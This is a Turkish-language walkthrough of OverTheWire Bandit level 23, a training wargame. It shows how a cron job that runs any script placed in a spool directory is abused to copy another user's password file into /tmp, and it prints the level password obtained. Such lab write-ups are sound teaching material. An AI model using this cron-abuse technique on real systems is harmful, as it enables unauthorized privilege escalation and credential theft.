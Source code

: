 # Bandit Over The Wire **23**
### Bu Leveldeki Amacımız
> SSH kullanarak bandit23 bağlanıp bir önceki level gibi `cron` ile tekrarlanan bir işlemi inceleyerek şifrenin yerini bulmak ve bir sonraki level için şifreyi bulmak.

## Kullanacağımız Komutlar
1. `ls` : Bulunduğumuz dizindeki dosyaları listeler. Bir çok parametresi bulunuyor. Bu parametreler sayesinde dosyaları farklı şekillerde listelememizi sağlıyor. Daha fazlası için `man ls` komutunu kullanabilirsiniz.
2. `cat`: Bir dosya içeriğini ekrana yazdırır. Daha fazlası için `man cat` komutunu kullanabilirsiniz.
3. `cd`: Change Directory kısaltmasıdır. Bulunduğumuz dizini değiştirmemizi sağlar. Daha fazlası için `man cd` komutunu kullanabilirsiniz.
4. `touch` : Bir dosya oluşturur. Daha fazlası için `man touch` komutunu kullanabilirsiniz.
5. `chmod` : Bir dosyanın izinlerini değiştirmemizi sağlar. Daha fazlası için `man chmod` komutunu kullanabilirsiniz.
7. `nano`: Terminal üzerinde bir metin editörüdür. Daha fazlası için `man nano` komutunu kullanabilirsiniz.

## Şifre Bulma
Bir ve iki önceki leveldeki gibi `cron.d` dosyası var ve içinde çalıştırdı bir shell dosyası bulunuyor bunlara teker teker bakalım.

```bash
bandit23@bandit:~$ ls -a /etc/cron.d/  
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
```
```bash
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```
```bash
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Burada `cronjob_bandit24.sh` dosyasının her dakika çalıştığını görebiliriz. `cronjob_bandit24.sh` dosyasını incelediğimizde `/var/spool/$myname/foo` dizinine gidip içindeki dosyaları çalıştırdığını ve daha sonra sildiğini görebiliriz. Bizim amacımız `/var/spool/$myname/foo` altına bir `shell script` hazırlamak ve bu çalıştığı zamanda bir sonraki levelin şifresini elde etmek.

Burada `$myname` bizim kullnaıcı ismimiz oluyor yani `bandit23`

```bash
bandit23@bandit:~$ touch /var/spool/bandit24/foo/bandit25sa.sh
bandit23@bandit:~$ nano /var/spool/bandit24/foo/bandit25sa.sh
```
Burada nano ile açtığımız dosyanın içine şu kodu yazıyoruz.
```bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit24kolaydi.txt
chmod 444 /tmp/bandit24kolaydi.txt
```
Daha sonra `cronjob_bandit24.sh` dosyasını inceleyip içindeki kodu anlamaya çalışıyoruz. Burada `timeout` komutu ile 60 saniye içinde `bandit25sa.sh` dosyasını çalıştırıp daha sonra siliyor. Bizim amacımız bu dosyayı çalıştırdığında `/tmp` dizinine `bandit24kolaydi.txt` dosyasını oluşturup içine şifreyi yazdırmak ve daha sonra da izinlerini değiştirmek.

```bash
bandit23@bandit:~$ cat /tmp/bandit24kolaydi.txt
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

Şifremizi elde ettik. Bir sonraki levele geçebiliriz.

<hr/>

Hata ve geri dönüşler için: *[ersagun@ersaguntosun.com ](mailto:ersagun@ersaguntosun.com)*


